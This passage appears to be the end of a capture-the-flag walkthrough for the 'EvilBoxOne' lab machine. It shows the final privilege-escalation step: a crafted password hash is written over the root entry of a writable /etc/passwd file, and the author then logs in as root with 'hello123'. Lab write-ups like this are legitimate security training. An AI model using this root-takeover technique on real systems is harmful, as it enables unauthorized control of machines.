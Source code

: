 ### Output : 
```bash
$6$uegv3O1quNfDQoch$cYsfUhfmB7uxfWXGRlG06lppM.PTE97MNIQ6T6c1vikpBpXCYFi.1xQ9DGLERjvRUJCIvLO/WXVT74kX0lNWH1
```

Now, we can write this hash into the `/etc/passwd` file , essentially overwriting the password for the root user :

```bash
nano /etc/passwd
```

```bash
root:$6$uegv3O1quNfDQoch$cYsfUhfmB7uxfWXGRlG06lppM.PTE97MNIQ6T6c1vikpBpXCYFi.1xQ9DGLERjvRUJCIvLO/WXVT74kX0lNWH1:0:0:root:/root:/bin/bash
```

We replace the first line with the line above and save the file.

Now we can login as the root user using the password `hello123`

```bash
su root
password: hello123
root@EvilBoxOne:/tmp#
```

![[Pasted image 20240105012205.png]]

We have owned the box. Thanks for reading.
See you in the next one :)

Regards,
sepi0l.